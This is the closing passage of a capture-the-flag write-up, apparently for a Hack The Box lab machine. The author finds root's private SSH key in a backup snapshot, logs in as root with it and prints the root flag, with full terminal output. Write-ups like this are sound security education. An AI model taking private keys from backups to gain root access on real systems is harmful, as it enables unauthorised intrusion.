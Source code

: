 ```
[0:00] 100.00%  222B / 222B  4 / 4 items  0 errors  ETA 0:00
duration: 0:00
snapshot 8b6515fd saved
```
And finally going through the snapshot i'm able to fina the `private` key for the root and `ssh` to access as `root`.
```
ssh -i root.id_rsa root@registry.htb

Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sat Mar 28 18:07:57 UTC 2020

  System load:  0.0               Users logged in:                1
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 21%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    156
Last login: Sat Mar 28 18:07:45 2020 from 10.10.14.40
root@bolt:~# whoami
root
root@bolt:~# cat root.txt
ntrkzgnkotaxyju0ntrinda4yzbkztgw
```
Thank you for taking you're time for reading this blog!.